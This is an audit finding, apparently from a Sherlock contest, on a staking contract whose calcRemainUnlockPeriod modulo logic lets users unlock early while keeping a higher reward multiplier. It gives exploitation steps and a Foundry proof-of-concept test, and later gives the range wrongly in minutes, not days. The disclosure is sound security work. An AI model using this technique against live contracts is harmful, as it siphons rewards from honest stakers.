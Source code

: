 Interesting Tawny Scorpion

high

# Stakers can retain higher reward multiplier while unstaking early

## Summary

Stakers can create lock positions that can be unstaked almost immediately and/or earlier than intended but retain the higher reward multiplier

## Vulnerability Detail

The root cause lies in [`calcRemainUnlockPeriod()`](https://github.com/sherlock-audit/2024-05-gamma-staking-nevillehuang/blob/main/StakingV2/src/Lock.sol#L605) in which the remaining time in seconds until lock can be unlocked is computed

```solidity
function calcRemainUnlockPeriod(LockedBalance memory userLock) public view returns (uint256) {
    // 1. Retrieve lock Time and lockPeriod
    uint256 lockTime = userLock.lockTime;
    uint256 lockPeriod = userLock.lockPeriod;
    
    // 2. If lockPeriod is smaller than or equal to defaultRelockTiome of 30 days
    // Use lockPeriod to subtract minimum 30 days --> lockPeriod - timeleft of lock rounded to nearest 30th day
    if (lockPeriod <= defaultRelockTime || (block.timestamp - lockTime) < lockPeriod) {
        // If the adjusted lock period is less than or equal to the default relock time, or if the current time is still within the adjusted lock period, return the remaining time based on the adjusted lock period.
        return lockPeriod - (block.timestamp - lockTime) % lockPeriod;
    } else {
        // If the current time exceeds the adjusted lock period, return the remaining time based on the default relock time.
@>      return defaultRelockTime - (block.timestamp - lockTime) % defaultRelockTime;
    }
```

> In the PenaltyCalculations, we use seconds for simplicity, but in reality, the minimum lock time will be 30 days and the defaultRelockTime should be equal to minimum lock time, but in case its not, the penalty should be based on the original lockPeriod.

Taking a realistic example of `defaultRelockTime` being 30 days. If `lockPeriod >= defaultRelockTime` and `block.timestamp - lockTime > lockPeriod`, the `calcRemainUnlockPeriod` will fall into the else block. 

This means the user can perform the following as the most extreme example:

1. Stake a position for 150 days, `lockPeriod = 150 days`
2. Assume admin notify rewards via `notifyUnseenRewards()`, at anytime between this 
3. Wait until position expires by `5183999`, ~59.999 days i.e. `block.timestamp - lockTime = 5183999`
4. Call `exitLateById()` , wherein `coolDownSecs` is computed as `2592000 - (5183999 % 2592000) = 1 seconds`
5. Call `getRewards()/getAllRewards()`
6. Unlock all tokens via `withdrawAllUnlockedToken()` after 1 second cooldown

In `Setup.t.sol` change this line [here]() to `lockPeriod.push(150 days);` and this line [here]() to `lock.setDefaultRelockTime(30 days);`. Then, copy and run `forge test --mt testCreatePositionImmediateUnlock` in `Withdrawal.t.sol`
```solidity
function testCreatePositionImmediateUnlock() public {
    // 1. User 1 stake position
    vm.prank(user1);
    lock.stake(100e18, user1, 0);

    // 2. Reward distribution
    vm.prank(deployer);
    _rewardToken.transfer(address(lock), 300e18);
    vm.prank(deployer);
    lock.notifyUnseenReward(rewardTokens);
    
    // 3. Fetch the first lock for user1 and perform a late exit and get rewards
    LockedBalance[] memory user1Locks = lockList.getLocks(user1, 0, 10);
    LockedBalance memory user1Lock = lockList.getLockById(user1, user1Locks[0].lockId);
    vm.prank(user1);
    uint256 prevTimestamp = block.timestamp;
    skip(150 days + 5183999); // Simulate time passage
    assertEq(block.timestamp, prevTimestamp + 150 days + 5183999);
    lock.exitLateById(user1Lock.lockId);
    lock.getAllRewards(); // Here rewards will be zero because of another vulnerability

    // 4. User immediately withdraws all tokens
    uint256 user1BalanceBefore = _stakingToken.balanceOf(user1);
    vm.prank(user1);
    prevTimestamp = block.timestamp;
    skip(2);
    assertEq(block.timestamp, prevTimestamp + 2);
    lock.withdrawAllUnlockedToken();
    uint256 user1BalanceAfter = _stakingToken.balanceOf(user1);
    assertEq(user1BalanceBefore + 100e18, user1BalanceAfter);
}
```

It is mentioned in the contest details that 

> Upon expiry of any lock time, the positions are automatically relocked for the duration of the lesser of the original lock time or the default lock time.

Here, instead of locking for the lesser default lock time of 30 days, the user is only relocked for an additional 1 second meaning it is possible to create locked positions wherein users can retain a higher locked multiplier without explicitly staking tokens for the intended lock period. The range of early unlock can range anywhere from 1 second - 29 minutes 59 seconds (instead of the usual minimum 30 minute relock time)

## Impact

- Allow users to create positions that can claim rewards without locking for intended lock period (minimum relock period of `defaultLockTime`), which can be abused to siphon rewards from other honest users staking


## Code Snippet

https://github.com/sherlock-audit/2024-05-gamma-staking-nevillehuang/blob/main/StakingV2/src/Lock.sol#L605

## Tool used

Manual Review

## Recommendation

Further analysis is required to refactor how `calcRemainUnlockPeriod` determines remaining locking period. Perhaps modulo should be avoided